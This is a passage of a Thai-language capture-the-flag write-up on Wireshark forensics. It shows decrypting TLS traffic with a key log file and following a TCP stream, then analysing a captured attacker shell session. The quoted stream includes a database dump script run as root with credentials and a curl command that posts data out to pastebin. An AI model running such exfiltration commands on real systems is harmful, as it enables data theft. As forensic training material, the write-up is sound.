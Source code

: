 <img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8792cab7-636b-40e4-894d-b19bcaa6561b" />

ลองดูที่แพ็กเกจบางส่วนที่มีข้อมูลคำขอโพสต์ เราจะใช้ ้http.request.method==POST และเราก็จะได้รับแพ็กเกจ HTTP ทั้งหมดที่ถูกเข้ารหัสไว้ก่อนหน้านี้ ในส่วนของการถอดรหัสแพ็กเกจเหล่านี้ กลับไปดูที่ไฟล์ที่มีชื่อว่า"secrets"

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/11aec5ac-6230-49cf-b9a4-243a071fd708" />

สิ่งที่อยู่ในไฟล์นี้คือ key สามารถใช้ในการถอดรหัสการรับส่งข้อมูล https หรือการรับส่งข้อมูล TSL หรือ SSL

Step 4 TSL

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ecbdc033-1e82-4b02-a6dd-b786c701a391" />

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/27454160-4d8a-4c44-9159-c124b711e449" /

สิ่งที่เราจะทำในลำดับถัดมา คือไปที่ edit เลือก Preferences จากนั้นหา Protocols และกดมัน แล้วเลื่อนหา TSL เมื่อหาเจอแล้วก็กดอัปโหลดไฟล์ที่มีชื่อว่า"secrets" จากนั้นกด OK

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/af31b86c-d8a5-438b-a057-5f630ff48fca" />

ต่อมาเลือกแพ็กเกจสุดท้าย คลิกขวา จากนั้นกด Follow เลือก TCP Steam

<img width="1920" height="1080" alt="ทีเอสแอล" src="https://github.com/user-attachments/assets/5aa636d8-ea3a-493e-a98b-e0fe1936c0d6" />

ทีนี้ก็็เลื่อนหา flag

XXXXX ไม่ใช้ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบายเพิ่มเติม

ประเด็นที่ 1

Q: จากในภาพคำสั่งทั้งหมดจาก Linux กำลังถูกโอนย้ายข้ามสายยังไง สังเกตจากอะไร ?

1.1 สิ่งที่เห็นในเนื้อหา (Follow TCP Stream)

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bdba076a-7bd9-4087-b3f6-46fba37d8da6" />
```
PING mysql-m1.prod.htb (10.10.20.14)
```
```
root@web-m1:/tmp/.h4x# ./exfildb.sh mysql-m1.prod.htb 3306 root p4ssw0rd dbdump
```
```
curl -d "api_user_key=..." https://pastebin.com/api/api_post.php
```
หมายความว่า

- มี shell prompt (root@web-m1:/tmp/.h4x#) ซึ่งเป็น session ของเครื่อง Linux ฝั่ง remote
  
- มีการรันคำสั่งจริง เช่น ping, cat /etc/passwd, curl
  
- คำสั่งและผลลัพธ์ของมันถูกส่งออกมาใน TCP stream นี้ → หมายความว่า เรากำลังดักดูการสื่อสารระหว่างเครื่องที่รันคำสั่งกับเครื่องที่รับคำสั่ง

1.2 เส้นทางการส่ง (ข้ามสาย)
